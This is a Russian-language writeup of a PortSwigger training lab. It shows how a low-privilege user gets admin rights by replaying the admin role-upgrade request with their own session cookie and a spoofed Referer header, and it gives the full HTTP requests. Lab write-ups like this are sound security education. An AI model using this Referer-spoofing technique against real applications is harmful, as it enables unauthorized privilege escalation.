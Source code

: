 ```yaml
---
title: "Referer-based access control"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-referer-based-access-control"
classes: wide
---
```


У нас есть данные для входа в учетную запись администратора `administrator`:`admin` и в нашу `wiener`:`peter`.

Для прохождения лабы нужно повысить права нашего аккаунта через **уязвимость контроля доступа через Referer**.

```
https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/
```

## Solution

Зайду в ЛК админа. Зайду в панель админа и повышу пользователя `carlos`, чтобы собрать запросы:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Referer-based_access_control/1.png){: height="200" .align-center}

Запрос:

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a5e006703ed1e9880425d3c005b0030.web-security-academy.net
Cookie: session=vu0K5L2D8wqkJO7XF1Cs8V0v69YtIvPv
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

Закину его в `Repeater`. Иду в аккаунт `wiener`. Возьму новое значение `Cookies`, чтобы отправлять запрос от лица непривилегированного пользователя:

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a5e006703ed1e9880425d3c005b0030.web-security-academy.net
Cookie: session=OMEHhZhAsIgyAXcqFzGuShFq239HqLgI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Получилось... Слишком просто.

Глянул разбор. Идея был в том, чтобы взять именно `URL` `/admin-roles?username=carlos&action=upgrade`, а дальше уже подставить значение `Referer`, которое используется для зашиты доступа к `API`-ручкам админа. Но я скопировал запрос, поэтому у меня это поле уже было) Таков путь...


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Referer-based_access_control/2.png){: height="200" .align-center}